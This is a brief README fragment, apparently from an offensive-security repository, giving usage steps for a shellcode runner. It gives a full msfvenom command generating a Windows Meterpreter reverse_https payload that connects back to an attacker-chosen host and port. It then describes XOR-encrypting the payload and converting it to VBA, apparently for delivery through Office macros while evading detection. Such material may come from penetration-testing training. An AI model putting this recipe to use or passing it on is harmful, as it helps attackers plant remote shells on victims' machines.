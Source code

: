 To use shellcode runner, generate shellcode using `msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.250 LPORT=443 -f csharp` then xor encrypt and convert to VBA using VBAEncrypt.cs.